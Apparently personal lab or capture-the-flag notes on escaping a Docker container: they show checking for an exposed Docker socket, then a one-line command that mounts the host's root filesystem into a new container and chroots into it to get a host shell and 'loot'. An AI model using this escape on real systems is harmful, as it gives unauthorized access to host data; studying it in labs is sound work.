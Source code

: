 [[Docker]]
7.1. Step 1. Connecting to the container:
ssh

7.2. Looking for the exposed Docker socket
```
/var/run

ls -la | grep sock

groups

```

![[Pasted image 20220613135201.png]]

7.3. Mount host volumes

Now that we've confirmed we can execute Docker commands, let's mount the host directory to a new container and then connect to that to reveal all the data on the host OS!

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

_Note: If you do n**ot receive any output after 30 seconds you will need to cancel** the command by "Ctrl + C" and attempt to run it again._

We are essentially mounting the **hosts "/" directory to the "/mnt" dir** in a new container, chrooting and then connecting via a shell.

7.4. Verify loot
Success!

![[Pasted image 20220613135516.png]]